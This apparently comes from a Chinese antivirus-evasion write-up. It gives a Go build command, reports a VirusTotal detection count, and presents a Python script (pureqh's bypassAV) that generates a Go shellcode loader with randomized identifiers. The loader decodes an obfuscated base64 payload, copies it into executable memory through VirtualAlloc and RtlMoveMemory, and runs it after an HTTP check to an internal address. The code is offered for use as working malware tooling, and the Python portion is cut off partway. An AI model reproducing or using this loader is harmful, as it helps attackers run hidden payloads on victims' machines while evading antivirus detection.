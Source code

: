 ```bash
go build -trimpath -ldflags=-H=windowsgui main.go
```

查杀结果是[12/68](https://www.virustotal.com/gui/file/e35be096802a6f11ecc33722d47f872fe3aeb9612aec5b29ee04d099c0e46241)，可以再对go脚本进行混淆处理

```python
import random

#author: pureqh
#github: https://github.com/pureqh/bypassAV
#use: python build.py

exp = '''package main

import (
    "encoding/base64"
    "strings"
    "syscall"
    "unsafe"
    "net/http"
    "net/url"
)
var (
    {2}  = syscall.NewLazyDLL("kernel32.dll")
    {3} = {2}.NewProc("VirtualAlloc")
    {4} = {2}.NewProc("RtlMoveMemory")
)

func {5}({6} string){0}
    {7} :=strings.Replace({6}, "#", "A", -1 )
    {8} :=strings.Replace({7}, "!", "H", -1 )
    {9} :=strings.Replace({8}, "@", "1", -1 )
    {10} :=strings.Replace({9}, ")", "T", -1 )
    {11},_ := base64.StdEncoding.DecodeString({10})
    {12}, _, _ := {3}.Call(0, uintptr(len({11})), 0x1000|0x2000, 0x40)
    _, _, _ = {4}.Call({12}, (uintptr)(unsafe.Pointer(&{11}[0])), uintptr(len({11})))
    syscall.Syscall({12}, 0, 0, 0, 0)

{1}
func main() {0}
    {14}, _ := url.Parse("http://192.168.31.29/pay")
    {15} := {14}.Query()
    {14}.RawQuery = {15}.Encode()
    {16}, {18} := http.Get({14}.String())
    if {18} != nil {0}
        return
    {1}
    {13} := {16}.StatusCode
    {16}.Body.Close()
    if {18} != nil {0}
        return
    {1}
    var {17} int = 200
    if {13} == {17} {0}
    {5}("") // b64 payload here
    {1}
{1}'''


def random_name(len):
    str = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    return ''.join(random.sample(str,len))

```